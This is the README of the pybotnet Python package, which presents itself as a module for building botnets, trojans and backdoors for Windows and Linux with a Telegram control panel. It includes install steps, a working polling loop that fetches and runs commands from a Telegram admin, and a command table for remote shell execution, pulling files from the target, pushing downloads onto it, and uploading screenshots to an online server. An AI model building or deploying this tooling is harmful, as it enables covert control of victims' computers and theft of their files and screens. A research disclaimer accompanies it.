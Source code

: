 
 <p align="center">
  <a href='https://github.com/onionj/pybotnet' target='_blank'><img src='https://i.postimg.cc/WFSTSLnW/trojan.png' border='0' alt='pybotnet icon'/></a>  <h1    align="center">pybotnet</h1>
  <p align="center"> A Python module for building <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> for windows and linux with Telegram control panel </p>


  <p align="center">
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/badge/built%20with-Python3-red.svg" />
    </a>
  </p>
</p>
 
> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf. 

> See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me 💕 \

[Persian document](https://vrgl.ir/G2i6b)  داکیومنت فارسی

### Features:
* Telegram anti-filter control panel
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)
* export file to targets system
* import file from target system 
* get screenshot

for more, see commands table end of this page 



#### Requirements:

* Python 3.6 or higher
* Telegram account

### Usage:
```
pip install pybotnet
```

```python

from pybotnet import pybotnet
import time

# change TELEGRAM_TOKEN and  ADMIN_CHAT_ID to valid data:

# telegram api token (Get it from the telegram @botfather)
TELEGRAM_TOKEN = '1468299547:ABHs_________MzZcYxF_e00000000000'

# telegram account number ID (get it from @userinfobot)
ADMIN_CHAT_ID = '12345678910'



# * is_sheel:          if you compile code without shell: is_sheel=False
# * show_log:          just for debugging
# * send_system_data:  send system short info in every bot messages in telegram

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=True, send_system_data=True, is_shell=True)

delay = 10

while True:
    print('*-*'*15)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:

> Send this COMMANDs to your api bot in telegram, using the admin account.

>  for run command on one target:  `<Target_MAC_Address> <command>`   `66619484755211 get_info` 


COMMAND | Sample | DO THIS | version | tested on |
--------|--------|---------|--------------------------|-----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`ls <route>` | `ls C:\ `,` ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
`export_file <link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` |target donwload this file and save to script path route| 0.14 | windows linux|
`import_file <file_route>` |`import_file /home/onionj/folder/somting.png` | get a file from target system (limit:5GB)| 0.17.0 |  windows, linux|
`screenshot` | `screenshot` | Takes a screenshot, uploads it to the online server and return the download link | 0.18.1 |  windows, linux |
`help` | `help` | send commands help | 0.18.5 | windows, linux |



